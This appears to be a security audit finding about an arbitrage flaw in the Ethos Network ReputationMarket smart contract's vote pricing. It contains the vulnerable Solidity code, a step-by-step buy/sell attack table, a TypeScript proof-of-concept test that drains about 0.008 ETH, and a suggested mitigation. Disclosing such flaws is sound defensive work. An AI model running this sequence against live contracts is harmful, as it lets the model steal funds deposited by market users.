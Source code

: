 Radiant Seaweed Armadillo

High

# Arbitrage attackers can steal funds from the reputation market.

# Arbitrage attackers can steal funds from the reputation market.

### Summary

There is no cool down period between the buying and selling the votes and users can buy and sell continuously in one transaction.
When users buy or sells votes, the vote price is changed according to `price = (votes * basePrice) / totalVotes`.
As a result, there is arbitrage opportunity and attackers can steal funds using this vulnerability.

### Root Cause

In the `ReputationMarket._calcVotePrice` function, it calculates the vote price as `price = (votes * basePrice) / totalVotes` from [L922](https://github.com/sherlock-audit/2024-11-ethos-network-ii/tree/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L922)

```solidity
  function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes; //zz ?
  }
```

And users can buy and sell votes continuously in one transaction [here](https://github.com/sherlock-audit/2024-11-ethos-network-ii/tree/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L442-L500).

### Internal pre-conditions

None

### External pre-conditions

1. None

### Attack Path

Let's consider the following scenario:

- Alice creates the market with `0.01 ether` initial liquidity.
- Bob buys and sells according to the following steps:

| buy/sell | isPositive | trust | distrust | votes / totalVotes |
| -------- | ---------- | ----- | -------- | ------------------ |
|  |  | 1 | 1 | |
| buy  | true  | 2 | 1 | + 1 / 2 |
| buy  | false | 2 | 2 | + 1 / 3 |
| buy  | true  | 3 | 2 | + 1 / 2 |
| buy  | false | 3 | 3 | + 2 / 5 |
| buy  | true  | 4 | 3 | + 1 / 2 |
| sell | false | 4 | 2 | - 2 / 6 |
| sell | false | 4 | 1 | - 1 / 5 |
| sell | true  | 3 | 1 | - 3 / 4 |
| sell | true  | 2 | 1 | - 2 / 3 |
| sell | true  | 1 | 1 | - 1 / 2 |
| final |      |   |   | -13 / 60 |

As a result, bob receives `0.01 * 13 / 60` ethers.

For the simplicity, this scenario uses the market which has initial liquidity.
Arbitrage attacking is also available in the general status.

### Impact

- Malicious attackers can steal funds of the market.
- This can break the following requirement in README:

"""
Reputation Markets must never sell the initial votes. They must never pay out the initial liquidity deposited. The only way to access those funds is to graduate the market.
"""

### PoC

Add the following test codes in the `rep.market.test.ts` file.

```ts
  it('arbitrage_test', async () => {
    const {trustVotes: trustVotes1, distrustVotes: distrustVotes1, balance:balance1} = await userB.getVotes();
    console.log(trustVotes1, distrustVotes1, balance1);
    for (let i = 0; i < 9; i++){
      await userB.buyOneVote({isPositive: true,});
      await userB.buyOneVote({isPositive: false,});
      await userB.buyOneVote({isPositive: true,});
      await userB.buyOneVote({isPositive: false,});
      await userB.buyOneVote({isPositive: true,});
      await userB.sellOneVote({isPositive: false,});
      await userB.sellOneVote({isPositive: false,});
      await userB.sellOneVote({isPositive: true,});
      await userB.sellOneVote({isPositive: true,});
      await userB.sellOneVote({isPositive: true,});
    }
    const {trustVotes: trustVotes2, distrustVotes: distrustVotes2, balance:balance2} = await userB.getVotes();
    console.log(trustVotes2, distrustVotes2, balance2);
  });
```

The test result is following as:

```bash
0n 0n 2000000000000000000000n
0n 0n 2000008093015095095392n
```

Initially, there is 0.01 eth in the market and `userB` steals `8093015095095392`(0.008 eth).

### Mitigation

Improve the votes price mechanism and add the cool down period between the buying and selling votes.
